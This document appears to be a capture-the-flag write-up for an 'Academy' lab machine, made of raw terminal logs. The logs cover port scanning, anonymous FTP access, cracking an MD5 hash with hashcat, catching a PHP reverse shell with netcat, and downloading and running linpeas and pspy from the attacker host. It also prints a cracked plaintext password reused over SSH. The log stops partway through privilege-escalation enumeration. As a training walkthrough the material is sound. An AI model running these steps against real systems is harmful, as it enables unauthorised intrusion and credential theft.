



# academy
# nmap
~~~
# Nmap 7.94 scan initiated Sat Oct 14 13:43:15 2023 as: nmap -sV -A -sC -oN nmap 192.168.197.130
Nmap scan report for 192.168.197.130
Host is up (0.00051s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.197.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:BE:BB:BD (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.197.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 14 13:43:31 2023 -- 1 IP address (1 host up) scanned in 15.75 seconds
~~~
gobuster
~~~
┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ gobuster dir -u http://192.168.197.130/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.130/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/academy              (Status: 301) [Size: 320] [--> http://192.168.197.130/academy/]
/phpmyadmin           (Status: 301) [Size: 323] [--> http://192.168.197.130/phpmyadmin/]
/server-status        (Status: 403) [Size: 280]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~
what i get ftp
~~~
 ┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ ftp 192.168.197.130
Connected to 192.168.197.130.
220 (vsFTPd 3.0.3)
Name (192.168.197.130:alpha): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||47501|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||57537|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 30  2021 .
drwxr-xr-x    2 0        114          4096 May 30  2021 ..
-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||42346|)
150 Opening BINARY mode data connection for note.txt (776 bytes).
100% |**************************************************************************************************************************|   776       51.27 KiB/s    00:00 ETA
226 Transfer complete.
776 bytes received in 00:00 (48.64 KiB/s)
ftp> put nmap
local: nmap remote: nmap
229 Entering Extended Passive Mode (|||36503|)
550 Permission denied.
ftp> exit
221 Goodbye.
┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ cat note.txt                                      
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta                                                                                                                                                                 

                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: cd73502828457d15655bbd7a63fb0bc8

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
 HASH: ^Z
zsh: suspended  hash-identifier
                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ echo cd73502828457d15655bbd7a63fb0bc8 | > hash.txt                                
                                                                                                                                                                       

                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i5-4200U CPU @ 1.60GHz, 1422/2908 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

cd73502828457d15655bbd7a63fb0bc8:student                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: cd73502828457d15655bbd7a63fb0bc8
Time.Started.....: Sat Oct 14 13:52:05 2023 (0 secs)
Time.Estimated...: Sat Oct 14 13:52:05 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   358.1 kH/s (0.19ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 1536/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: clover -> lovers1
Hardware.Mon.#1..: Util: 95%

Started: Sat Oct 14 13:51:27 2023
Stopped: Sat Oct 14 13:52:07 2023
                                                                                                                                                                       
┌──(alpha㉿sploit)-[~/ctf/academy]
~~~

[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
~~~
┌──(alpha㉿sploit)-[~/ctf/academy]
└─$ nc -nlvp 1444
listening on [any] 1444 ...
connect to [192.168.197.148] from (UNKNOWN) [192.168.197.130] 45418
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 13:57:25 up 20 min,  1 user,  load average: 0.01, 0.16, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                16:37     ?     0.04s  0.02s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ ls -la
total 68
drwxr-xr-x  18 root root  4096 May 29  2021 .
drwxr-xr-x  18 root root  4096 May 29  2021 ..
lrwxrwxrwx   1 root root     7 May 29  2021 bin -> usr/bin
drwxr-xr-x   3 root root  4096 May 29  2021 boot
drwxr-xr-x  17 root root  3120 Oct 14  2023 dev
drwxr-xr-x  74 root root  4096 Oct 14  2023 etc
drwxr-xr-x   3 root root  4096 May 30  2021 home
lrwxrwxrwx   1 root root    31 May 29  2021 initrd.img -> boot/initrd.img-4.19.0-16-amd64
lrwxrwxrwx   1 root root    31 May 29  2021 initrd.img.old -> boot/initrd.img-4.19.0-13-amd64
lrwxrwxrwx   1 root root     7 May 29  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 May 29  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 May 29  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 May 29  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 May 29  2021 lost+found
drwxr-xr-x   3 root root  4096 May 29  2021 media
drwxr-xr-x   2 root root  4096 May 29  2021 mnt
drwxr-xr-x   2 root root  4096 May 29  2021 opt
dr-xr-xr-x 222 root root     0 Oct 14  2023 proc
drwx------   3 root root  4096 May 30  2021 root
drwxr-xr-x  18 root root   540 Oct 14  2023 run
lrwxrwxrwx   1 root root     8 May 29  2021 sbin -> usr/sbin
drwxr-xr-x   3 root root  4096 May 29  2021 srv
dr-xr-xr-x  13 root root     0 Oct 14  2023 sys
drwxrwxrwt   2 root root  4096 Oct 14 13:57 tmp
drwxr-xr-x  13 root root  4096 May 29  2021 usr
drwxr-xr-x  12 root root  4096 May 29  2021 var
lrwxrwxrwx   1 root root    28 May 29  2021 vmlinuz -> boot/vmlinuz-4.19.0-16-amd64
lrwxrwxrwx   1 root root    28 May 29  2021 vmlinuz.old -> boot/vmlinuz-4.19.0-13-amd64
$ cd home
$ ls
grimmie
$ cd grimmie
$ ls
backup.sh
$ cat ba
cat: ba: No such file or directory
$ nano *.sh
Unable to create directory /var/www/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

Press Enter to continue

Error opening terminal: unknown.
$ 
$ sudo -l 
/bin/sh: 10: sudo: not found
$ cd /tmp
$ ls
$ pwd
/tmp
www-data@academy:/tmp$ wget http://192.168.197.148:4443/linpeas.sh
wget http://192.168.197.148:4443/linpeas.sh
--2023-10-14 16:18:44--  http://192.168.197.148:4443/linpeas.sh
Connecting to 192.168.197.148:4443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847799 (828K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 827.93K  --.-KB/s    in 0.02s   

2023-10-14 16:18:44 (48.0 MB/s) - 'linpeas.sh' saved [847799/847799]

www-data@academy:/tmp$ ls
ls
linpeas.sh  linux-exploit-suggester.sh  pwned
www-data@academy:/tmp$ chmod +X linpeas.sh
chmod +X linpeas.sh
www-data@academy:/tmp$ ./linpeas.sh
./linpeas.sh
bash: ./linpeas.sh: Permission denied
www-data@academy:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@academy:/tmp$ ./linpeas.sh
./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                                
    |---------------------------------------------------------------------------------|                                                                                
    |         Get the latest version    :     https://github.com/sponsors/carlospolop |                                                                                
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                                
    |         Respect on HTB            :     SirBroccoli                             |                                                                                
    |---------------------------------------------------------------------------------|                                                                                
    |                                 Thank you!                                      |                                                                                
    \---------------------------------------------------------------------------------/                                                                                
          linpeas-ng by carlospolop                                                                                                                                    
                                                                                                                                                                       
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                                                    
                                                                                                                                                                       
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                                                               
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...
~~~


```password My_V3ryS3cur3_P4ss```

```username grimmie```

# privilege
~~~
──(alpha㉿sploit)-[~/ctf/academy]
└─$ ssh grimmie@192.168.197.130                  
The authenticity of host '192.168.197.130 (192.168.197.130)' can't be established.
ED25519 key fingerprint is SHA256:eeNKTTakhvXyaWVPMDTB9+/4WEg6WKZwlUp0ATptgb0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.197.130' (ED25519) to the list of known hosts.
grimmie@192.168.197.130's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ ls -la
total 32
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rwxr-xr-- 1 grimmie administrator  112 May 30  2021 backup.sh
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
grimmie@academy:~$ sudo -l
-bash: sudo: command not found
grimmie@academy:~$ su
Password: 
su: Authentication failure
grimmie@academy:~$ ./backup.sh 
rm: remove write-protected regular file '/tmp/backup.zip'? 
zip I/O error: Permission denied
zip error: Could not create output file (/tmp/backup.zip)
chmod: changing permissions of '/tmp/backup.zip': Operation not permitted
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cd tmp
-bash: cd: tmp: No such file or directory
grimmie@academy:~$ cd /tmp
grimmie@academy:/tmp$ ls
backup.zip  systemd-private-71dac60a88334a9aaa1ac55d9c8a45cb-apache2.service-SAL025  systemd-private-71dac60a88334a9aaa1ac55d9c8a45cb-systemd-timesyncd.service-yEcLJi
grimmie@academy:/tmp$ cd
grimmie@academy:~$ crontab 
  
^Z
^Cgrimmie@academy:~$ systemctl list-
list-dependencies  list-jobs          list-machines      list-sockets       list-timers        list-unit-files    list-units         
grimmie@academy:~$ systemctl list-
list-dependencies  list-jobs          list-machines      list-sockets       list-timers        list-unit-files    list-units         
grimmie@academy:~$ systemctl list-timers 
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Sat 2023-10-14 17:39:00 EDT  23min left    Sat 2023-10-14 17:09:01 EDT  6min ago     phpsessionclean.timer        phpsessionclean.service
Sat 2023-10-14 19:27:00 EDT  2h 11min left Sat 2023-10-14 13:41:35 EDT  3h 33min ago apt-daily.timer              apt-daily.service
Sun 2023-10-15 00:00:00 EDT  6h left       Sat 2023-10-14 13:41:35 EDT  3h 33min ago logrotate.timer              logrotate.service
Sun 2023-10-15 00:00:00 EDT  6h left       Sat 2023-10-14 13:41:35 EDT  3h 33min ago man-db.timer                 man-db.service
Sun 2023-10-15 06:54:31 EDT  13h left      Sat 2023-10-14 13:41:35 EDT  3h 33min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Sun 2023-10-15 13:52:01 EDT  20h left      Sat 2023-10-14 13:52:01 EDT  3h 23min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

6 timers listed.
Pass --all to see loaded but inactive timers, too.
~~~
[pspy](https://github.com/DominicBreuker/pspy)
~~~
grimmie@academy:~$ wget http://192.168.197.148:4443/pspy64
--2023-10-14 17:19:16--  http://192.168.197.148:4443/pspy64
Connecting to 192.168.197.148:4443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                    100%[====================================================================================>]   2.96M  --.-KB/s    in 0.08s   

2023-10-14 17:19:17 (38.5 MB/s) - ‘pspy64’ saved [3104768/3104768]

grimmie@academy:~$ ls
backup.sh  pspy64
grimmie@academy:~$ chmod +x pspy64 
grimmie@academy:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/10/14 17:19:33 CMD: UID=33    PID=21404  | /bin/bash 
2023/10/14 17:19:33 CMD: UID=33    PID=21403  | python -c import pty;pty.spawn("/bin/bash") 
2023/10/14 17:19:33 CMD: UID=33    PID=20998  | /bin/sh 
2023/10/14 17:19:33 CMD: UID=33    PID=20997  | python -c import pty; pty.spawn("/bin/sh") 
2023/10/14 17:19:33 CMD: UID=33    PID=10529  | /bin/sh -i 
2023/10/14 17:19:33 CMD: UID=33    PID=10525  | sh -c uname -a; w; id; /bin/sh -i 
2023/10/14 17:19:33 CMD: UID=0     PID=10499  | dhclient 
2023/10/14 17:19:33 CMD: UID=1000  PID=3544   | ./pspy64 
2023/10/14 17:19:33 CMD: UID=1000  PID=3376   | -bash 
2023/10/14 17:19:33 CMD: UID=1000  PID=3375   | sshd: grimmie@pts/2  
2023/10/14 17:19:33 CMD: UID=1000  PID=3367   | (sd-pam) 
2023/10/14 17:19:33 CMD: UID=1000  PID=3366   | /lib/systemd/systemd --user 
2023/10/14 17:19:33 CMD: UID=0     PID=3363   | sshd: grimmie [priv] 
2023/10/14 17:19:33 CMD: UID=0     PID=3155   | 
2023/10/14 17:19:33 CMD: UID=33    PID=988    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=986    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=983    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=977    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=976    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=975    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=932    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=918    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=0     PID=886    | dhclient 
2023/10/14 17:19:33 CMD: UID=0     PID=803    | -bash 
2023/10/14 17:19:33 CMD: UID=0     PID=799    | (sd-pam) 
2023/10/14 17:19:33 CMD: UID=0     PID=798    | /lib/systemd/systemd --user 
2023/10/14 17:19:33 CMD: UID=33    PID=581    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=33    PID=580    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=0     PID=574    | /usr/sbin/apache2 -k start 
2023/10/14 17:19:33 CMD: UID=106   PID=562    | /usr/sbin/mysqld 
2023/10/14 17:19:33 CMD: UID=0     PID=505    | /usr/sbin/sshd -D 
2023/10/14 17:19:33 CMD: UID=0     PID=467    | /bin/login -p --      
2023/10/14 17:19:33 CMD: UID=0     PID=460    | /usr/sbin/vsftpd /etc/vsftpd.conf 
2023/10/14 17:19:33 CMD: UID=0     PID=456    | /lib/systemd/systemd-logind 
2023/10/14 17:19:33 CMD: UID=104   PID=454    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
2023/10/14 17:19:33 CMD: UID=0     PID=451    | /usr/sbin/cron -f 
2023/10/14 17:19:33 CMD: UID=0     PID=447    | /usr/sbin/rsyslogd -n -iNONE 
2023/10/14 17:19:33 CMD: UID=101   PID=445    | /lib/systemd/systemd-timesyncd 
2023/10/14 17:19:33 CMD: UID=0     PID=417    | 
2023/10/14 17:19:33 CMD: UID=0     PID=416    | 
2023/10/14 17:19:33 CMD: UID=0     PID=349    | /lib/systemd/systemd-udevd 
2023/10/14 17:19:33 CMD: UID=0     PID=330    | /lib/systemd/systemd-journald 
2023/10/14 17:19:33 CMD: UID=0     PID=300    | 
2023/10/14 17:19:33 CMD: UID=0     PID=299    | 
2023/10/14 17:19:33 CMD: UID=0     PID=297    | 
2023/10/14 17:19:33 CMD: UID=0     PID=269    | 
2023/10/14 17:19:33 CMD: UID=0     PID=267    | 
